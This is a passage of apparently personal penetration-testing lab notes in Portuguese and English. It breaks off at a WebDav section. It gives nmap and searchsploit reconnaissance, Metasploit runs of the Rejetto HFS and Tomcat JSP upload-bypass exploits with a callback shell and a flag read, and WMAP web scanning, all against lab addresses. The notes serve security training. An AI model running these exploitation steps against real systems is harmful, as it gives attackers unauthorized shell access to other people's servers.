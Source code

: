     Obtemos as credencias 
    
- File Server
    
    ```bash
    nmap --top-ports 65536 10.0.0.99
    nmap -sV -p 80 10.0.0.99
    searchsploit hfs
    
    Metasploit
    msfconsole
    use exploit/windows/http/rejetto_hfs_exec
    set RPORT 80
    set RHOSTS 10.0.0.99
    set LHOST 10.10.0.4 <Make Sure to Enter Valid LHOST IP Address>
    exploit
    
    Command: shell
    cd /
    dir
    type flag.txt
    ```
    
- TomCat Attack
    
    ```bash
    nmap --top-ports 65536 10.0.0.14
    
    Metasploit
    msfconsole
    use exploit/multi/http/tomcat_jsp_upload_bypass
    set RHOSTS 10.0.0.141
    check (We are running a “check” command in the metasploit framework to make sure that if
    the target is vulnerable to jsp_upload_bypass or not.)
    exploit
    ```
    
- Web App Vulnerability Scanning With WMAP
    
    ```bash
    msfconsole
    load wmap
    wmap_sites -a 192.157.89.3
    wmap_targets -t http://192.157.89.3
    wmap_sites -l
    wmap_targets -l
    wmap_run -t
    wmap_run -e
    ```
    
- WebDav Attack
    
    ```bash
    Metodo 1
    
    nmap --script http-enum -sV -p 80 10.0.16.177
    
